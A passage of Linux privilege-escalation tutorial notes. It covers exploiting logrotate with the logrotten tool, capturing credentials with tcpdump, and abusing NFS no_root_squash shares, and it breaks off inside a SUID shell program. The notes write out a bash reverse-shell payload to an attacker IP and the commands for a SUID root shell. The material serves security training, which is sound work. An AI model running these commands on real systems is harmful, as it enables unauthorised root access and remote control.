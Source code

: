 Logrotate has many features for managing these log files. These include the specification of:
- the size of the log file,
- its age,
- and the action to be taken when one of these factors is reached.

To exploit logrotate, we need some requirements that we have to fulfill.
1. we need write permissions on the log files
2. logrotate must run as a privileged user or root
3. vulnerable versions:
 - 3.8.6
 - 3.11.0
 - 3.15.0
 - 3.18.0

````
$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"
create
````
Exploitation
````
$ gcc logrotten.c -o logrotten
$ echo 'bash -i >& /dev/tcp/<Our_IP>/<Our_Port> 0>&1' > payload
$ ./logrotten -p ./payload /tmp/tmp.log
````

## Miscellaneous Techniques

### Passive Traffic Capture

If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. Several tools exist, such as net-creds and PCredz that can be used to examine data being passed on the wire. This may result in capturing sensitive information such as credit card numbers and SNMP community strings. It may also be possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could be subjected to an offline brute force attack to reveal the plaintext password. Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.

### Weak NFS Privileges

````
$ showmount -e <IP>
````
When an NFS volume is created, various options can be set:

| Option         | Description                                                                                                                                                                                                                                  |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| root_squash    | If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set. |
| no_root_squash | Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.                           |

````
$ cat /etc/exports
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
````
For example, we can create a SETUID binary that executes /bin/sh using our local root user. We can then mount the /tmp directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.
````
$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
````